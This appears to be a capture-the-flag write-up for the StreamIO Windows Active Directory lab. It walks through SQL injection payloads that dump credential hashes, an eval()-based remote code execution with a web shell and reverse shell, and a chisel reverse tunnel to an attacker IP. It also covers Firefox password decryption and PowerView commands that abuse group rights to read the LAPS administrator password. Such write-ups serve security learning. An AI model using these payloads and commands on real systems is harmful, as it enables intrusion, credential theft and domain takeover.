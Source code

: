 # StreamIO (AD)

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (71) (1).png" alt=""><figcaption></figcaption></figure>

### HTTPS Cert

On port 443, we can head to the website to find some kind of streaming platform.

<figure><img src="../../../.gitbook/assets/image (64) (1).png" alt=""><figcaption></figcaption></figure>

Checking the cert, we can find another domain name:

<figure><img src="../../../.gitbook/assets/image (31) (2).png" alt=""><figcaption></figcaption></figure>

We can add this domain to our `/etc/hosts` files. Another notable thing we found was the login function on the main domain.&#x20;

### SQL Injection

The new domain leads us to a different website.

<figure><img src="../../../.gitbook/assets/image (46) (1).png" alt=""><figcaption></figcaption></figure>

The page was written in PHP (visiting index.php brings us to home page), thus we can fuzz possible endpoints with the `.php` extension using `gobuster -x` flag.

<figure><img src="../../../.gitbook/assets/image (72) (1).png" alt=""><figcaption></figcaption></figure>

Within `search.php`, we can find a query function.

<figure><img src="../../../.gitbook/assets/image (23) (4).png" alt=""><figcaption></figcaption></figure>

This was vulnerable to SQL Injection, and the payload `a' union select 1,2,3,4,5,6;-- -` works. From here, we can enumerate out the users and tables present in the website.

<figure><img src="../../../.gitbook/assets/image (56) (1).png" alt=""><figcaption></figcaption></figure>

Using the STREAMIO database, we can dump out the tables present:

<figure><img src="../../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>

Then, we can take a look at the users table. This can be done using `a' union select 1, concat(username, ':', password), 3,4,5,6 from users; -- -`.&#x20;

<figure><img src="../../../.gitbook/assets/image (54) (1).png" alt=""><figcaption></figcaption></figure>

After getting all the credentials, we can crack the hashes and then brute force the `login.php` page we found earlier on `streamio.htb`. The user `yoshihide` and his password works!

### Debug Fuzz

Within the admin dashboard, we can see a few functionalities that cause a unique parameter of `?staff=` to be passed.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>

I found this rather interesting, and wanted to fuzz this more. I was able to find another `debug` endpoint using `wfuzz`.

<figure><img src="../../../.gitbook/assets/image (41) (3).png" alt=""><figcaption></figcaption></figure>

I also used `gobuster` to see what other files were present on this directory.

<figure><img src="../../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

`master.php` was the most unique.

### Eval RCE

Within the debug page, there isn't much visual difference apart from one line:

<figure><img src="../../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

Because this page was in PHP, I tested the `debug` parameter with a common `php://filter` LFI exploit, and this worked!

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

We can then take a look at that `master.php` file we found earlier. The last bit was the most interesting.

<pre class="language-php"><code class="lang-php">&#x3C;?php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
        eval(file_get_contents($_POST['include']));
else
<strong>    echo(" ---- ERROR ---- ");
</strong>}
?> 
</code></pre>

The `eval()` function was being used, and this was definitely vulnerable to some kind of RCE. So to construct the attack, we can attempt to upload a `cmd.php` webshell via encoding with base64 and then send it via a POST request with an `include` parameter.&#x20;

We can send this request here:

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

And we finally have RCE on the machine. Then, we can gain a reverse shell via `nc.exe`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We don't have much control over the machine with this user, so we need to find another.

### MSSQL

When checking `netstat`, we can find a service listening on port 1433 that was not detectable earlier from our Kali machine.

<figure><img src="../../../.gitbook/assets/image (75) (3).png" alt=""><figcaption></figcaption></figure>

Also, we can head to the `inetpub` folder to find credentials, of which we do within the `index.php` file:

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

We can then port forward via `chisel`.&#x20;

```bash
# on Kali
./chisel server -p 8000 --reverse

# on Victim
.\chisel.exe client 10.10.16.12:8000 R:1433:127.0.0.1:1433
```

Using `mssqlclient.py`, we can access the database with the credentials we found.

<figure><img src="../../../.gitbook/assets/image (36) (3).png" alt=""><figcaption></figcaption></figure>

I took a look at the streamio\_backup database and found credentials for a `nikk37` user.

<figure><img src="../../../.gitbook/assets/image (38) (4).png" alt=""><figcaption></figcaption></figure>

The hash can be cracked via crackstation.

<figure><img src="../../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (37) (4).png" alt=""><figcaption></figcaption></figure>

### Firefox Passwords + Bloodhound

When I ran WinPEAS on this machine, it picked up on a Firefox credential file. We can use `firepwd.py` to decrypt the passwords.

<figure><img src="../../../.gitbook/assets/image (49) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/lclevy/firepwd/blob/master/firepwd.py" %}

Upon decrypting the `logins.json` file, we can find some more passwords.

<figure><img src="../../../.gitbook/assets/image (69) (1).png" alt=""><figcaption></figcaption></figure>

Since we had credentials, I also ran a `bloodhound-python` to enumerate the objects within the host.

<figure><img src="../../../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

Found that the `jdgodd` user had some permissions over the Core Staff group.

<figure><img src="../../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

And members of this Core Staff were able to ReadLAPSPassword for the DC.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### ReadLAPSPassword

To exploit this, we would first need to add the `jdgodd` user into the Core Staff group, and then read the administrator password.

The adding can be done via remote Powershell and Powerview using the credentials we found from Firefox earlier for `jdgodd`.&#x20;

```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"
Add-DomainGroupMember -Identity "Core Staff" -Members 'streamio\JDgodd' -Credential $Cred
```

<figure><img src="../../../.gitbook/assets/image (58) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can use `crackmapexec` modules to read the LAPS password.

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as the administrator.

<figure><img src="../../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>
